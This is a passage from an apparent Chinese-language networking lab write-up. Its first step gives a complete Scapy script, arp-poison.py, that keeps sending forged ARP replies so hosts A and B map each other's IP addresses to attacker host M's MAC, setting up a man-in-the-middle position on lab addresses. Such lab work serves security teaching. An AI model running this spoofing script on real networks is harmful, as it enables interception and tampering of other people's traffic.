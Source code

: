 

### Step 1. Launch the ARP cache poisoning attack

首先，主机 M 对 A 和 B 进行 ARP 缓存中毒攻击，使得在 A 的 ARP 缓存中，B 的 IP 地址映射到 M 的 MAC 地址，在 B 的 ARP 缓存中，A 的 IP 地址也映射到 M 的 MAC 地址。

编写`arp-poison.py`:

```python
#!/usr/bin/python3
from scapy.all import ARP, Ether, send
import time

def arp_spoof(target_ip, target_mac, spoof_ip, spoof_mac):
    """
    对目标主机进行 ARP 欺骗，使目标主机的 ARP 缓存中将 target_ip 映射到 spoof_mac。
    
    参数：
    - target_ip: 目标主机的 IP 地址。
    - target_mac: 目标主机的 MAC 地址。
    - spoof_ip: 欺骗的 IP 地址，即伪装成的源 IP 地址。
    - spoof_mac: 欺骗的 MAC 地址，即伪装成的源 MAC 地址。
    """
    # 构造 ARP 回复包
    arp_reply = ARP(op=2,             # op=2 表示 ARP 回复
                    psrc=spoof_ip,    # 欺骗的源 IP 地址
                    hwsrc=spoof_mac,  # 欺骗的源 MAC 地址
                    pdst=target_ip,   # 目标主机的 IP 地址
                    hwdst=target_mac) # 目标主机的 MAC 地址

    # 发送 ARP 回复包
    send(arp_reply, verbose=False)
    print(f"已发送ARP回复包：{spoof_ip} -> {spoof_mac} to {target_mac}")

def start_arp_spoofing():
    # 定义各主机的 IP 和 MAC 地址
    hostM_ip = "10.9.0.105"
    hostM_mac = "02:42:0a:09:00:69"
    hostA_ip = "10.9.0.5"
    hostA_mac = "02:42:0a:09:00:05"
    hostB_ip = "10.9.0.6"
    hostB_mac = "02:42:0a:09:00:06"

    # 启动 ARP 欺骗攻击，分别将 A 和 B 的 IP 地址映射到 M 的 MAC 地址
    print("开始 ARP 欺骗攻击，毒化 A 和 B 的 ARP 缓存...")
    
    try:
        while True:
            # 对 A 进行 ARP 欺骗，将 B 的 IP 映射到 M 的 MAC 地址
            arp_spoof(hostA_ip, hostA_mac, hostB_ip, hostM_mac)
            # 对 B 进行 ARP 欺骗，将 A 的 IP 映射到 M 的 MAC 地址
            arp_spoof(hostB_ip, hostB_mac, hostA_ip, hostM_mac)
            
            # 设置间隔时间，以便持续进行攻击
            time.sleep(2)
    except KeyboardInterrupt:
        print("\nARP 欺骗攻击已停止")

if __name__ == "__main__":
    start_arp_spoofing()

```
